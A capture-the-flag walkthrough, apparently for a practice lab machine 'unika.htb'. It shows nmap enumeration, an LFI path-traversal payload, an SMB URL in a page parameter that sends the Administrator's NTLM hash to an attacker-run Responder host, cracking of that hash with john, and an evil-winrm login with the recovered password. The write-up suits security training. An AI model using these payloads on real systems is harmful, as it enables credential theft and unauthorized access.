

# 1. Enumeration

- We will begin by scanning the host for any open ports adn running services with <span style="color:red;">nmap</span>:

```
-p- : This flag scans for all TCP ports ranging from 0-65535
-sV : Attempts to determine the version of the service running on a port
--min-rate : This is used to specify the minimum number of packets Nmap should send per
second; it speeds up the scan as the number goes higher
```

```
nmap -p- --min-rate 1000 -sV 10.129.128.223
```


- According to the results of the Nmap scan, the machine is using Windows as its operating system. Two ports
were detected as open having Apache web server running on `port 80` along with <span style="color:red;">WinRM</span> on `port 5985` .
---
## <u>Note</u>: 
- <b>Windows Remote Management</b>, or WinRM, is a Windows-native built-in remote management protocol
that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as
Operating Systems and applications. WinRM allows the user to :
  - Remotely communicate and interface with hosts
  - Execute commands remotely on systems that are not local to you but are network accessible
  - Monitor, manage and configure servers, operating systems and client machines from a remote location
  
- As a pentester, this means if we can find credentials for a user who has remote management privileges, we can potentially get a PowerShell shell on the host

# 2. Website Enumeration
- Going to `10.129.128.223`, the browser returns a message about being unable to find that site. The URL bar is now showing `http://unika.htb`.
The website has redirected the browser to a new URL, and the host doesn't know how to find `unika.htb`.
This webserver is employing name-based Virtual Hosting for serving the requests.
---
## <u>Note</u>
- Name-Based Virtual Hosting is a method for hosting multiple domain names (with separate handling of each name) on a single server.
This allows one server to share its resource, such as memory or processor cycles, without requiring all the services to be used by the same host name.
- The webserver checks the domain name provided in the `Host` header filed of the HTTP request and sends a response according to that.
---

- The `/etc/host` file is used to resolve a hostname into an IP address & thus we will need to add an entry in `/etc/host`
file for this domain to enable the browser to resolve the address for `unika.htb`
```
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

- Going back to our browser, we are now presented with a web designing business landing page:


# 3. File Inclusion Vulnerability

- We notice a language selection option on the navbar `EN` and changing the option to `FR` takes us to a French version of the website.



- Noticing the URL, we can see that the `french.html` page is being loaded by the `page` parameter, which may potentially be vulnerable to LFI.

- One of the most common files that a penetration tester might attemp to access on a Windows machine to verify LFI is the hosts files,
`WINDOWS\System32\drivers\etc\hosts`.
```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```


# 4. Responder Challenge Capture
- Now that we know this webpage is vulnerable to LFI and it uses `WinRM`, we can try to load a remote file to obtain 
a shell. 
- In the `php.ini` file, `allow_url_include` wrapper is ser to "Off" by default, indicating that PHP does not load remote
HTTP of HTP URLS to prevent RFI attacks. However, even if `allow_url_include` and `allow_url_fopen` are set to "Off", 
PHP will not prevent the loading of SMB URLS.
- In this case, we can misuse this functionality to steal the NTLM hash.
- Now, we can attempt to load an SMB URL, and in that process, we can capture the hashes from the target using `Responder`
- More about NTLM <a href="https://www.crowdstrike.com/cybersecurity-101/ntlm-windows-new-technology-lan-manager/">here</a><br></br>
- With the Responder server ready, we tell the server to include a resource from our SMB server by setting the `page`
parameter as follow:
```
http://unika.htb/?page=//10.10.14.25/somefile
```
- Checking our listening Responder server, we can see a NetNTLMv for the Administrator user:


- The NetNTLMv2 includes both the challenge (random text) and the encrypted response.
# 5. Hash Cracking

- We can dump the hash into a file and attempt to crack it with `john`:
```
echo "Administrator::DESKTOP-
H3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```


# 6. WinRM

- We'll connect to the WinRM service on the target and try to get a session. We will use `evil-winrm`:
```
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```


- We can find the flag under `C:\Users\mike\Desktop\flag.txt`.

